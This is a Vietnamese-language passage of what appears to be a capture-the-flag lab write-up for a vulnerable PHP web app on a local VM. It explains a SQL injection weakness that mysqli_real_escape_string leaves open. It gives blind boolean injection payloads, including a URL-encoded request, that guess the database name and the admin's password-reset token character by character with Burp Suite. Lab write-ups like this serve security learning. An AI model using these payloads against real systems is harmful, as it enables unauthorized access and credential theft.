 <h2>Nhận định điểm yếu</h2>

<h3>Lỗ hổng SQL Injection</h3>
<ul>
  <li><strong>Vị trí:</strong> File xử lý truy vấn trong <code>/include/</code>.</li>
  <li><strong>Phân tích:</strong></li>
  <ul>
    <li>Hàm <code>mysqli_real_escape_string()</code> lọc ký tự đặc biệt nhưng không chặn được dấu <code>(</code> và <code>)</code>.</li>
    <li>Điều này cho phép tấn công SQL Injection.</li>
  </ul>
</ul>

<p><img src="/images/secureCode1/8.png" alt="Điểm yếu SQL" /><br>Điểm yếu trong truy vấn</p>

<ul>
  <li><strong>Kiểm tra:</strong></li>
  <ul>
    <li>Truy vấn trả về dữ liệu -> HTTP 404.</li>
    <li>Không có dữ liệu -> HTTP 302.</li>
    <li>Trick này có thể đánh lừa công cụ như <code>sqlmap</code>.</li>
  </ul>
</ul>

<p><img src="/images/secureCode1/9.png" alt="Logic kiểm tra" /><br>Logic trả về trạng thái</p>

---

<h2>Tấn công</h2>

<h3>1. Khai thác SQL Injection</h3>
<p><strong>Mục tiêu:</strong> Lấy thông tin từ database (tên database, token, v.v.).</p>
<p><strong>Payload mẫu:</strong></p>
<pre><code>and ascii(substr(database(),1,1)) = 104 -- -</code></pre>
<ul>
  <li><strong>Giải thích:</strong></li>
  <ul>
    <li><code>database()</code>: Trả về tên database.</li>
    <li><code>substr(database(),1,1)</code>: Lấy ký tự đầu tiên.</li>
    <li><code>ascii()</code>: Chuyển ký tự thành mã ASCII.</li>
    <li>So sánh với 104 (chữ <code>h</code>) để đoán từng ký tự.</li>
  </ul>
  <li><strong>URL:</strong> <code>http://192.168.56.101/item/viewItem.php?id=1%20and%20ascii%28substr%28database%28%29%2C1%2C1%29%29%20%3D%20104%20--%20-</code>.</li>
</ul>

<p><strong>Thử nghiệm:</strong></p>
<ul>
  <li>Dùng Burp Suite để thay đổi giá trị ASCII (từ 30-130) và đoán tên database.</li>
  <li><strong>Kết quả:</strong> Biết tên database nhưng chưa đủ để khai thác sâu hơn.</li>
</ul>

<p><strong>Payload nâng cao:</strong></p>
<pre><code>1 and ascii(substr((SELECT token FROM user WHERE id = 1),1,1)) = 111 -- -</code></pre>
<ul>
  <li><strong>Mục tiêu:</strong> Lấy token của user <code>id = 1</code> (admin).</li>
  <li><strong>Kiểm tra:</strong> Token chỉ được sinh ra khi yêu cầu quên mật khẩu.</li>
</ul>
